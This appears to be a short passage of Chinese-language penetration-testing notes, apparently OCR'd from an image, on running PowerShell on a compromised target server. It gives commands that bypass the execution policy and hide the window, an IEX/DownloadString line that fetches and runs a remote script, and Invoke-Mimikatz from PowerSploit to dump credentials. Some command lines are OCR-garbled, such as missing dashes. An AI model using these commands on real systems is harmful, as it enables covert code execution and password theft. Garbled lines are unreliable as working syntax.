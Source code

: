 ```
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden NoLogo -NonInteractive -NoProfile File xx.ps1
```

##### 绕过本地权限执行

上传xx.ps1至目标服务器，在CMD环境下，在目标服务器本地执行该脚本，如下所示。

```
PowerShell.exe -ExecutionPolicy Bypass -File xx.ps1
```

如何在cmd绕过策略限制

```
PowerShell.exe -ExecutionPolicy Bypass -File hello.ps1

PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo-NonInteractive -NoProfile -File xxx.ps1

执行完之后隐藏
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile -Nonl IEX (New-Object Net.WebClient).DownloadString("hello.ps1");[Parameters]


```





使用powershell的Mimikatz模块导出密码

```
Import-Module C:\install\rolan\tools\powershell\PowerSploit-master\Exfiltration\Invoke-Mimikatz.ps1
Invoke-Mimikatz –DumpCreds
```

![](./powershell_image/image-20201207155722560.png)

